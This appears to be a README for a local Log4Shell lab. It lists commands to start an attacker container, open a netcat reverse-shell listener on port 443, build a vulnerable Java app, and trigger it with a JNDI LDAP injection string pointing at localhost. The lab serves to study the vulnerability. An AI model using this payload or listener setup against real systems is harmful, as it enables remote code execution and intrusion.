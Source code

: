 # 3204

Set up server
cd log4jshell-lab/attacker
docker-compose build 
docker-compse up -d 

net cat listener 
nc -lvnp 443


start the java app
cd log4jshell-lab/victim/vuln-apps/others/basicJar

docker run -it --rm -v "$(pwd)":/opt/maven -w /opt/maven maven mvn clean install



run exploit 
java -cp target/Log4jLabProject-1.0-SNAPSHOT-all.jar com.log4jshell.App '${jndi:ldap://127.0.0.1:1389/Run}'
